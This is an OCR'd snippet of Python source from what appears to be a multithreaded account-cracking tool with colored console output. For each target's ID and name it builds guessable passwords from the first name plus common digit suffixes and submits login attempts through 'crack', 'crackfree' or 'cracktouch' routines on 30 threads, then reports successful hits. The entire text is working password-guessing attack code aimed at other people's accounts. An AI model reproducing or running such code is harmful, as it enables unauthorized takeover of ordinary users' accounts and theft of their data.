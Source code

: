 	print(f"\x1b[1;97m~~~~~~~~~~~~~~~~~~~~~~~~~~~")
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'123123')
					pwv.append(frs+'1000')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456789')
					pwv.append(frs+'112233')
					pwv.append(frs+'123321')
					pwv.append(frs+'12341234')
					pwv.append(frs+'123456')
					pwv.append(frs+'12345678')
					pwv.append(frs+'1234567')
					pwv.append(frs+'11223344')
					pwv.append(frs+'1122334455')
					pwv.append(frs+'112233445566')
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'123123')
					pwv.append(frs+'1000')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456789')
					pwv.append(frs+'112233')
					pwv.append(frs+'123321')
					pwv.append(frs+'12341234')
					pwv.append(frs+'123456')
					pwv.append(frs+'12345678')
					pwv.append(frs+'1234567')
					pwv.append(frs+'11223344')
					pwv.append(frs+'1122334455')
					pwv.append(frs+'112233445566')
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(crackfree,idf,pwv)
			elif 'touch' in method:
				pool.submit(cracktouch,idf,pwv)
	print(f' \x1b[1;91m\x1b[1;96m\x1b[1;97m CRACK COMPLETE ')
	print(f' \x1b[1;91m\x1b[1;96m\x1b[1;97m OK : {h}%s '%(ok))
	print(' \x1b[1;91m\x1b[1;96m\x1b[1;97m  RETURN CRACK \x1b[1;97m[Y]\n \x1b[1;91m\x1b[1;96m\x1b[1;97m \x1b[1;91mEXIT [T]')
	woi = input('\x1b[1;97m SELECT  : ')
	if woi in ['y','Y']:
		back()
